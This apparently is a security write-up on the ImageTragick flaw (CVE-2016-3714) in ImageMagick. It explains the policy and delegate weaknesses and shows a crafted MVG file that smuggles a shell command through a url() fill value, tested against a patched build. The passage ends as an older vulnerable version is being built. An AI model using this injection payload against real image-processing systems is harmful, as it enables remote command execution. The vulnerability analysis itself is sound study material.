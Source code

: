 CVE 2016-3714 focuses on a possible shell injection vulnerability with ImageMagick. It is actually the combination of a number of vulnerabilities.

1. That it's possible to provide input images, that don't meet the magic string requirements for its expected legitimate file type. The first few bytes of a file can often used be used to identify the type of file it represents. Some examples are *tiff* images which start with the hex bytes `49 49 2A 00`, and *jpeg* images which start with `FF D8`.
1. That the default coders hardening policy (`policy.xml`) is lax, allowing all types of delegates to be invoked from the get go.
1. That the delegate implementation, go to not effort to sanitising or verify the hygiene of the input buffer it subsequently passes to a `system()` call






# Exploitability assessment

As @zalewski puts it, the ImageTragick flaw is most notable for its ease of exploitation, "an embarrassingly simple shell command injection bug reminiscent of the security weaknesses prevalent in the 90's, and nearly extinct in core libraries in use today".

On my Kali machine, ships with a 2019 patched version 6.9.10-23 of the ImageMagick utilities and libraries:

     # convert --version
     Version: ImageMagick 6.9.10-23 Q16 x86_64 20190101 https://imagemagick.org
     Copyright: © 1999-2019 ImageMagick Studio LLC
     License: https://imagemagick.org/script/license.php
     Features: Cipher DPC Modules OpenMP 
     Delegates (built-in): bzlib djvu fftw fontconfig freetype heic jbig jng...

Crafting a payload to take advantage of the vulnerability:

    # cat exploit.mvg 
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://127.0.0.0/spl017.jpg"|ls "-la)'
    pop graphic-context


Testing the vulnerability with an image payload, yields a "not a JPEG" file, as file type checking code has been introduced in recent times.

    # convert exploit.mvg exploit.png
    convert-im6.q16: Not a JPEG file: starts with 0x70 0x75 `rce1.jpg' @ error/jpeg.c/JPEGErr
        orHandler/335.
    convert-im6.q16: no images defined `rce1.png' @ error/convert.c/ConvertImageCommand/3258.


After downloading a pre `6.9.3-10` version of the ImageMagick source code, in this case `6.9.2-10`, from [sourceforge.net](https://sourceforge.net/projects/imagemagick/files/old-sources/6.x/6.9/ImageMagick-6.9.2-10.tar.gz/download), got a local build of the binaries.
